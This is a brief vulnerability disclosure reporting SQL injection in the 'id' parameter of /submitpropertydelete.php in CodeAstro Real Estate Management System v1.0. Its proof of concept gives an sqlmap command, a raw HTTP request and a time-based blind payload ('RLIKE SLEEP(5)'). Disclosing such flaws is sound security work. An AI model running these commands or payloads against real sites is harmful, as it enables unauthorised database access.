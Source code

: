 # SQLi vulnerability in CodeAstro Real Estate Management System v1.0 of file /submitpropertydelete.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /submitpropertydelete.php

**Version**

- V1.0

### POC

```
sqlmap -u http://target/submitpropertydelete.php?id=1 --level 5
```



```http
GET /submitpropertydelete.php?id=1 HTTP/1.1
Host: www.realestate.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=d4bb5bt4089bi920s8gj8fb0np
Upgrade-Insecure-Requests: 1
```



```
---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: id=1 RLIKE SLEEP(5)
---
```



![image-20250602121548797](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202506021215951.png)